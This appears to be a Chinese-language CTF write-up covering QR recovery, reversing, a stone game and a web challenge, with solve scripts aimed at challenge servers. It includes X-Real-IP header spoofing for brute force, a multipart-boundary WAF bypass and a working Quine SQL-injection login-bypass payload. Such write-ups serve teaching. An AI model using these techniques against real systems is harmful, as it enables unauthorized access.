






## Misc
### raenil
拿到一张 gif，里面是二维码的两部分。


需要注意右侧部分的二维码进行了垂直翻转，观察特征也容易发现。

根据透视原理，作辅助线辅助还原二维码，使用 QrazyBox 照着画即可。

还有一些地方根本看不到，使用 Padding Bits Recovery 修复。





### nanonymous spam
ip 与用户名一一对应，想办法构造出能生成相同用户名的 ip。

```python
import re
import requests
import string

# 目标用户名列表
target_users = {
    "VicCouNeaGas", "DemHohBojWod", "PowFitGuoRut", "VetTasBesDae", 
    "FasLiuTasJoi", "DevRecWoeDia", "BogHubSorHad", "BagLibYupSix", 
    "MowPetBecZan", "LonRecRipLuk", "KarYapTajGot", "TiaLiuFayDic", 
    "VizDivCitBot", "LeaLatReaSac", "FasLiuVicToc", "KunSadMerMun", 
    "LemLiuGuoReq"
}

# 提取用户名的函数
def extract(text):
    pattern = r'''<div class="username">User: (.*?)</div>
            <form id="messageForm">
    '''
    match = re.search(pattern, text)
    if match:
        username = match.group(1)
        return username

# 目标URL
url = "http://1.95.184.40:8520/"

with open("results.txt", "w") as f:
    for p1 in range(48, 58):  
        for p2 in range(48, 58):
            for p3 in range(48, 58):
                for p4 in range(48, 58):
                    ip = f"{p1}.{p2}.{p3}.{p4}"
                    headers = {
                        "X-Real-IP": ip
                    }
                    try:
                        response = requests.get(url, headers=headers)
                        if response.status_code == 200:
                            username = username(response.text)
                            if username and username in target_users:
                                f.write(f"{ip} ---=--- {username}\n")
                                print(f"Found: {ip} ---=--- {username}")
                    except Exception as e:
                        print(f"Error with IP {ip}: {e}")

# 最后一个，爆破LemLiu得到，101.100.mask.mask,mask有一个一定是125
            for p3 in range(0, 256):
                for p4 in range(0, 256):
                    ip = f"101.100.{p3}.{p4}"
                    headers = {
                        "X-Real-IP": ip
                    }
                    try:
                        response = requests.get(url, headers=headers)
                        if response.status_code == 200:
                            username = extract(response.text)
                            print(username)
                            if username and username in target_users:
                                f.write(f"{ip} ---=--- {username}\n")
                                print(f"Found: {ip} ---=--- {username}")
                    except Exception as e:
                        print(f"Error with IP {ip}: {e}")
                        # 101.100.125.32

# 要检查的IP列表
ip_list = ['84.80.67.84', '70.123.102.105', '110.97.108.108', '121.95.116.104', '101.95.99.114', 
           '105.109.105.110', '97.108.53.95', '119.104.48.95', '112.117.98.108', '105.53.104.101', 
           '100.95.116.104', '101.53.101.95', '53.112.97.109', '95.119.101.114', '101.95.97.114', 
           '114.101.53.116', '101.100.125.32']

# 检查每个IP并请求
with open("ip_check_results.txt", "w") as f:
    for ip in ip_list:
        headers = {
            "X-Real-IP": ip
        }
        try:
            response = requests.get(url, headers=headers)
            if response.status_code == 200:
                text = response.text
                username = extract(text)
                print(username)
                if username and username in target_users:
                    f.write(f"{ip} ---=--- {username} (Valid)\n")
                    print(f"Valid: {ip} ---=--- {username}")
                else:
                    f.write(f"{ip} ---=--- No target user found (Invalid)\n")
                    print(f"Invalid: {ip} ---=--- No target user found")
            else:
                f.write(f"{ip} ---=--- Request failed (Status code: {response.status_code})\n")
                print(f"Request failed for {ip}: Status code {response.status_code}")
        except Exception as e:
            f.write(f"{ip} ---=--- Error: {str(e)}\n")
            print(f"Error with IP {ip}: {str(e)}")
```






## Reverse
### portable
sub_407F30 函数有一个异或的加密，异或了字符串 Cosmopolitan.



Cyberchef 一把梭，注意改成 UTF-8 编码，不然 flag 的字符显示不出来，注意要把数据里面的 00 去掉，或者去掉解出来的最后的字符串 litan。

### linuxpdf
先用谷歌浏览器打开 pdf，发现进入系统后运行了一个要输入 Flag 的程序，无法退出。想办法拿到这个程序。

记事本打开 pdf，里面有一堆 base64 编码的文件，其中 root/files/0000000000000000a9 是 checkflag 这个程序，提取出来直接逆向。发现就是不断地对 flag 计算 md5，然后跟密文比较，注意一开始的 md5 是从最后两个字符整体开始的，需要倒着去爆破。

```python
import hashlib

code = open("checkflag.elf", "rb").read()
numlist = []
for i in range(0, 28):
    num = code[0x3008 + i * 17:0x3008 + i * 17 + 16]
    num = int.from_bytes(num, "big")
    numlist.append(f"{num:032x}")
    
numlist = numlist[::-1]

flag = b'}'
for i in numlist:
    for j in range(0, 0x100):
        input_string = bytes([j]) + flag
        md5_hash = hashlib.md5()
        md5_hash.update(input_string)
        md5_hex = md5_hash.hexdigest()
        if md5_hex == i:
            flag = input_string
            break
        
print(flag)
```

### stone-game
博弈论，赢 90 次就行，打满 100 次。

技巧：每局开始，一次性取走前 4 堆，然后等 AI 取完以后再把剩下几堆取完，就必胜。

第一轮：取走前4堆

AI输入

第二轮，取走剩下的全部

AI输入

判定赢。

重复100次获得flag。

可以手动也可以让AI写脚本。

```python
from pwn import *

conn = remote('1.95.128.179', 3715)

conn.recvuntil(b'Press Enter to start..')
conn.sendline(b'')

wins = 0

for round_num in range(1, 401):
    print(f"=== Round {round_num}/400 ===")
    conn.recvuntil(b'Current stone count:')
   
    if round_num % 4 == 1:
 
        stone_counts = []
        for _ in range(8):
            line = conn.recvline().decode().strip()
            print(line)
            if 'stones' in line:
                count = int(line.split()[-2])
                stone_counts.append(count)
                print(f"Found {count} stones")
       
        print([stone_counts[0], stone_counts[1], stone_counts[2], stone_counts[3], 0, 0, 0])
        move = [stone_counts[0], stone_counts[1], stone_counts[2], stone_counts[3], 0, 0, 0]
        conn.recvuntil(b'(space-separated, e.g.: 0 1 0 2 0 0 0):')
        conn.sendline(' '.join(map(str, move)).encode())
    elif round_num % 4 == 3:

        stone_counts = []
        for _ in range(8):
            line = conn.recvline().decode().strip()
            print(line)
            if 'stones' in line:
                count = int(line.split()[-2])
                stone_counts.append(count)
                print(f"Found {count} stones")
     
        move = [0, 0, 0, 0, stone_counts[4], stone_counts[5], stone_counts[6]]
        conn.recvuntil(b'(space-separated, e.g.: 0 1 0 2 0 0 0):')
        conn.sendline(' '.join(map(str, move)).encode())
    elif round_num % 4 == 0:
        conn.recvuntil(b'You won')
        wins += 1
        print(f"Round {round_num} won! Current wins: {wins}")
        continue
    else:
        conn.recvuntil(b'Digital Display Game')

conn.interactive()
```



技巧：每局开始的时候，一次性取走前 4 堆，然后等 AI 取完以后再把剩下几堆取完，必胜。差不多 20 min解决。

## Web
### supersqli
绕 WAF 可以用 multipart boundary 去绕过，参考 https://sym01.com/posts/2021/bypass-waf-via-boundary-confusion/。

手动构造容易出错，可以参考文件上传写一个 upload.html，然后抓包微调一下即可。

接下来是注入，可以用 Quine 注入绕过限制登录。

```sql
' union select 1, 1,replace(replace('" union select 1, 1,replace(replace("%", char(34), char(39)), char(37),"%")--', char(34), char(39)), char(37),'" union select 1, 1,replace(replace("%", char(34), char(39)), char(37),"%")--')--
```



